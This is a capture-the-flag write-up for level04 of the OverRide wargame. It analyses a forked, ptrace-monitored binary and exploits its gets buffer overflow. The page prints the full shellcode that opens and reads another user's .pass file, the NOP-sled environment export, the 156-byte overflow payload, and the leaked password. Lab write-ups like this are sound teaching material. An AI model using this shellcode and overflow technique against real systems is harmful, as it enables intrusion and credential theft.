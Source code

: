 # level04

1. [Analysis](#analysis)
2. [Exploit](#exploit)

## Analysis

Basically, this program declares a buffer of 32 bytes, then calls `fork` to create a child process :

- In the child process, `ptrace` is used to make the process trackable, `puts` displays the hint "Give me some
  shellcode, k", then `gets` is called to fill the buffer.

- In the same time, the parent process wait for a status update from the child. If it receives a `SIGCHLD`, meaning the
  child process has exited, it returns too. Otherwise, it uses `ptrace` to monitor the syscalls done by the child
  process, especially looking for an `exec` call. If it catchs one, it kills the process and returns.

From here, we know that we have to design a shellcode that does not use any call to `exec`, and obviously find a way to
call it. The use of `gets` inside the child process seems to be a good entrypoint for a buffer overflow attack.

## Exploit

We first look for the right offset to overwrite the return address, using a [buffer overflow string
generator](http://projects.jason-rush.com/tools/buffer-overflow-eip-offset-string-generator/). The result is 156.

Since we can't use the syscall `exec` , we will use a
[shellcode](http://shell-storm.org/shellcode/files/shellcode-73.php) which calls `open/read/write` in order to print the
content of the `.pass` file from the level05 user home. We add a nop sled in front of it and export it to the
environment.

```console
level04@OverRide:~$ export SHELLCODE=`python -c 'print "\x90"*10 + "\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xeb\x32\x5b\xb0\x05\x31\xc9\xcd\x80\x89\xc6\xeb\x06\xb0\x01\x31\xdb\xcd\x80\x89\xf3\xb0\x03\x83\xec\x01\x8d\x0c\x24\xb2\x01\xcd\x80\x31\xdb\x39\xc3\x74\xe6\xb0\x04\xb3\x01\xb2\x01\xcd\x80\x83\xc4\x01\xeb\xdf\xe8\xc9\xff\xff\xff/home/users/level05/.pass"'`
level04@OverRide:~$ env | grep SHELLCODE
SHELLCODE=����������1�1�1�1��2[�1�̀����1�̀�����
                                             $�̀1�9�t���̀���������/home/users/level05/.pass
``` 

Finally, we find the address of our variable SHELLCODE on the stack by running the executable in GDB, then run it again
sending a string of 156 bytes followed by this address (plus a 16 bytes offset) to land into our nop sled.

```console
level04@OverRide:~$ python -c 'print "A" * 156 + "\x8c\xd8\xff\xff"' | ./level04
Give me some shellcode, k
3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN
child is exiting...
```